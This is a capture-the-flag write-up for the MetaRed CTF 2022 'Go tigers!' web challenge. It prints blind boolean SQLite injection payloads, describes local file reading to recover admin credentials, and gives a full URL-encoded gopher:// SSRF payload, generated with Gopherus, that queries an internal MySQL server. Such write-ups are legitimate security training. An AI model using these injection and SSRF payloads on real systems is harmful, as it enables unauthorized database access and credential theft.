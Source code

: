 # Writeup-Go-Tigers-
### MetaRed CTF Argentina 2022

## Go tigers!
 <img src=img/19.png class="center">

When visiting the website, we were face to two inut fields. The first one require an id and fetch in the database.If the id is valid it displays the id and the username.if not it displays nothing.The second field was an input that displays the content of a file using the function file_gets_content().

IMG

We tried to trigger an error using a quote and fortuantely we got an error from the database.The error reveals that a function called supersafeWaf() was filtering our input.
IMG 

(I discovered later that this was useless since my team managed to read the admin password from ../tiger.db using the second input , but hey i enjoyed tortuaring myself to manually perform a blind boolean based sql injection and that was fun!)
IMG 

Using the second input, we tried using it to get the source code of the "index.php" to understand the behaviour of the web application. 
Looking at the code of "index.php", we find out that ther uspersafeWaf() function actually filters some statements like 'select' , 'order' .. 
IMG

We tried out some SQLi payloads to see that this was a blind boolean based sql injection , it's an sqlite3 database.
Our payload was **1 AND CASE WHEN substr(user,1,1)='a' THEN 1 ELSE load_extension(1) END**
IMG

Since the username having an id 1 was 'admin' we didn't get an error and the data corresponding was displayed. 
Our final payload was **1 AND CASE WHEN substr(pass,1,1)='a' THEN 1 ELSE load_extension(1) END**
IMG

--> username : admin 
--> password : This_password_is_very_safe!

I discovered that there is an admin page (admin.php) that require a username and a password.So paasing those creds to the form we got to the page :
IMG
This time one input that gets an url was present and after reading the source code of the admin.php (using the second input field in the index.php) we decided to look for an SSRF: 

IMG

**What is SSRF?**
Server-Side Request Forgery (SSRF) refers to an attack wherein an attacker is able to send a crafted request from a vulnerable web application. SSRF is usually used to target internal systems behind firewalls that are normally inaccessible to an attacker from the external network.

All protocols other than file:// was valid since a delay of 5s took place. Reading the source code of the 'admin.php' once again a comment cought our attention **Acordarse de Fixear el BD user juanperez** which means 'Remember to Fix the BD user juanperez'
ehhhmmm ... So maybe there is another database running on internal!
our hypothese was confirmed when we saw the line of code **{ exec('timeout 2 nc -z mysqlsafedb.com 3306 ; if [ $? -eq 0 ] ; then echo "Online"; else echo "Offline"; fi', $out); echo "<pre>"; print_r($out);**. That means that the othe button was checking the whole time if this database is online or not. To communicate with this databse we decided to use the protocol **Gopher**.

**What is Gopher?**
Gopher is an application-layer protocol that provides the ability to extract and view Web documents stored on remote Web servers. Gopher was conceived in 1991 as one of the Internet’s first data/file access protocols to run on top of a TCP/IP network. It was developed at the University of Minnesota and is named after the school’s mascot.
We can use gopher:// to communicate with the MySQL database.

Basic agreement format: URL:gopher ://<host>:<port>/<gopher-path>_ Followed by TCP data flow

IMG

Tring the payload : **gopher://mysqlsafedb.com:3306/_%**
using gopherus, we were able to generate the following sql query : SELECT schema_name FROM information_schema.schemata
Our final payload was : **gopher://mysqlsafedb.com:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6a%75%61%6e%70%65%72%65%7a%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%34%00%00%00%03%73%65%6c%65%63%74%20%73%63%68%65%6d%61%5f%6e%61%6d%65%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%73%63%68%65%6d%61%74%61%01%00%00%00%01**
And the flag was the name of a database other than 'information_schema.schemata'

IMG




 ## Some Ressources:

 - https://programming.vip/docs/ssrf-uses-gopher-to-attack-mysql-and-intranet.html
 - https://github.com/tarunkant/Gopherus



